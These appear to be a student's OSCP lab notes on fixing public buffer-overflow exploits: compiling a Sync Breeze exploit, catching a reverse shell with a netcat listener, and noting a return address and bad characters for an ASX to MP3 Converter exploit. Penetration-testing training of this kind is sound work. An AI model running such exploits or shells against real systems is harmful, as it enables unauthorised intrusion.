

15.1.7.1

# 15.1.7.1
## 15.1.7.1.1. Fix the overflow buffer such that the EIP register will be overwritten by your chosen return address instruction.

Change the buffer size in 42341.c


Compile
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```
Open a netcat listener on port 443
```plaintext
kali@kali:~$ sudo nc -lnvp 443
[sudo] password for kali: 
listening on [any] 443 ...
```

Run the exploit (don't set any breakpoints)
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits$ wine syncbreeze_exploit.exe 

[>] Initialising Winsock...
[>] Initialised.
[>] Socket created.
[>] Connected

[>] Request sent
```

Notice we have a shell on the netcat listener



## 15.1.7.1.2. Install the ASX to MP3 Converter application located under the **C:\Tools\fixing_exploits** directory; download the exploit for ASX to MP3 Converter from EDB 391 and edit it in order to get a shell on your dedicated Windows machine.

### Find other exploits that may target Windows 10 Pro
Packet Storm link https://packetstormsecurity.com/files/154788/ASX-To-MP3-Converter-3.1.3.7-Stack-Overflow.html has interesting info. A **return address 0x1002D038** and **bad chars \x00\x09\x0a**


